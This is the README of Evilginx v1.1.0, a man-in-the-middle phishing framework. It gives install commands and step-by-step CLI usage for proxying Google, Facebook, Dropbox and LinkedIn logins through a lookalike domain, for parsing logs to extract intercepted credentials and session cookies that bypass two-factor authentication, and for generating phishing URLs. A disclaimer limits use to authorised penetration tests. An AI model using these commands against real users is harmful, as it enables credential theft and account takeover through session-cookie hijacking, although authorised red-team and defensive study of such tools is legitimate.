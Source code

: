 ## Evilginx v.1.1.0

![Evilginx](/img/evilginx-title.png?raw=true "Evilginx")

**THIS VERSION IS OBSOLETE, PLEASE USE THE LATEST VERSION**

**EVILGINX 2: https://github.com/kgretzky/evilginx2**

Evilginx is a man-in-the-middle attack framework used for phishing credentials and session cookies of any web service. It's core runs on Nginx HTTP server, which utilizes `proxy_pass` and `sub_filter` to proxy and modify HTTP content, while intercepting traffic between client and server.

You can learn how it works and how to install everything yourself on my blog:

First post slightly outdated now: [Evilginx - Advanced Phishing With Two-factor Authentication Bypass](https://breakdev.org/evilginx-advanced-phishing-with-two-factor-authentication-bypass/)

Evilginx 1.0 Update: [Evilginx 1.0 Update - Up Your Game in 2FA Phishing](https://breakdev.org/evilginx-1-0-update-up-your-game-in-2fa-phishing)

Evilginx 1.1 Update: [Evilginx 1.1 Update](https://breakdev.org/evilginx-1-1-release/)

#### Disclaimer

I am aware that Evilginx can be used for very nefarious purposes. This work is merely a demonstration of what adept attackers can do. It is the defender's responsibility to take such attacks into consideration, when setting up defenses, and find ways to protect against this phishing method.
Evilginx should be used only in legitimate penetration testing assignments with written permission from to-be-phished parties.

#### Contributors Hall of Fame

[@poweroftrue](https://github.com/poweroftrue)

#### Installation

Evilginx provides an installation script `install.sh` that takes care of installing the whole package on any Debian wheezy/jessie machine, in fire and forget manner.

```
git clone https://github.com/kgretzky/evilginx
cd evilginx
chmod 700 install.sh
./install.sh
```

#### Usage

```
            _ _       _            
           (_) |     (_)           
  _____   ___| | __ _ _ _ __ __  __
 / _ \ \ / / | |/ _` | | '_ \\ \/ /
|  __/\ V /| | | (_| | | | | |>  < 
 \___| \_/ |_|_|\__, |_|_| |_/_/\_\
                 __/ |             
 by @mrgretzky  |___/          v1.0

usage: evilginx.py [-h] {setup,parse,genurl} ...

positional arguments:
  {setup,parse,genurl}
    setup               Configure Evilginx.
    parse               Parse log file(s).
    genurl              Generate phishing URL.

optional arguments:
  -h, --help            show this help message and exit
```

###### Setup

Enable or disable site configurations for use with Nginx server, using supplied Evilginx templates from `sites` directory.

```
usage: evilginx.py setup [-h] [-d DOMAIN] [-y]
                         (-l | --enable ENABLE | --disable DISABLE)

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Your phishing domain.
  -y                    Answer all questions with 'Yes'.
  -l, --list            List available supported apps.
  --enable ENABLE       Enable following site by name.
  --disable DISABLE     Disable following site by name.
```

List available site configuration templates:
```
python evilginx.py setup -l

Listing available supported sites:

 - dropbox (/root/evilginx/sites/dropbox/config)
   subdomains: www
 - google (/root/evilginx/sites/google/config)
   subdomains: accounts, ssl
 - facebook (/root/evilginx/sites/facebook/config)
   subdomains: www, m
 - linkedin (/root/evilginx/sites/linkedin/config)
   subdomains: www
```

Enable google phishing site with preregistered phishing domain `not-really-google.com`:
```
python evilginx.py setup --enable google -d not-really-google.com
```

Disable facebook phishing site:
```
python evilginx.py setup --disable facebook
```

###### Parse

Parse Nginx logs to extract intercepted login credentials and session cookies. Logs, by default, are saved in `logs` directory, where `evilginx.py` script resides.
This can be done automatically after you enable auto-parsing in the **Setup** phase.

```
usage: evilginx.py parse [-h] -s SITE [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to parse logs for ('all' to parse logs
                        for all sites).
  --debug               Does not truncate log file after parsing.
```

Parse logs only for google site:
```
python evilginx.py parse -s google
```

Parse logs for all available sites:
```
python evilginx.py parse -s all
```

###### Generate URL

Generate phishing URLs that you can use in your Red Team Assessments.

```
usage: evilginx.py genurl [-h] -s SITE -r REDIRECT

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to generate link for.
  -r REDIRECT, --redirect REDIRECT
                        Redirect user to this URL after successful sign-in.
```

Generate google phishing URL that will redirect victim to rick'roll video on successful login:
```
python evilginx.py genurl -s google -r https://www.youtube.com/watch?v=dQw4w9WgXcQ

Generated following phishing URLs:

 : https://accounts.not-really-google.com/ServiceLogin?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
 : https://accounts.not-really-google.com/signin/v2/identifier?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
```

